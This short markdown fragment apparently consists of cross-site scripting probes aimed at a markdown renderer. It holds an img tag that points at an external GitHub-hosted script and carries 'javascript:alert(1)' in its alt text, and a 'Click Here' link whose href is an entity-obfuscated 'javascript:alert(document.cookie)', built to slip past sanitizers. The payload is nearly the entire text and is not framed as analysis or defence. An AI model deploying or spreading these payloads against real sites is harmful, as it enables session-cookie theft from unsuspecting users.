 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>

<a href="javascript&colon;alert&lpar;document&period;cookie&rpar;">Click Here</a>
](()
